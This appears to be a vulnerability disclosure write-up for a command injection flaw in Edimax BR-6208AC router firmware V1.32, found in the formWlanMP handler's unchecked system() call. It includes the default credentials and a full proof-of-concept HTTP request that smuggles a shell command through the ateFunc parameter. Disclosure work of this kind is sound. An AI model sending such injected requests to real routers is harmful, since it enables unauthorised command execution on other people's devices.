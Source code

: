 ## **Description**

A command injection and buffer overflow vulnerability was discovered in the Edimax BR-6208AC firmware version ​**V1.32**. The vulnerability arises from the improper input validation of the parameters (example 'ateFunc') in the 'formWlanMP' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: BR-6208AC
- ​**Version**: V1.32

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/BR-6208AC_1.32.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formWlanMP' is below:
![vulner_code.png](./img/vulner_code1.png)
![vulner_code.png](./img/vulner_code2.png)

- ​**websGetVar** retrieves POST parameters 'ateFunc', ..., 'e2pTxPwDeltaN'.
- **system()** is used without check, resulting a command injection in this place

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formWlanMP HTTP/1.1  
Host: 192.168.2.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 202  
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==  
Connection: close  
Referer: http://192.168.2.1/wireless_basic.asp
Upgrade-Insecure-Requests: 1  
  
ateFunc=;echo 123>/poc.txt;
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)
After verification, we found that all the above parameters in vunlerable code have the risk of command injection.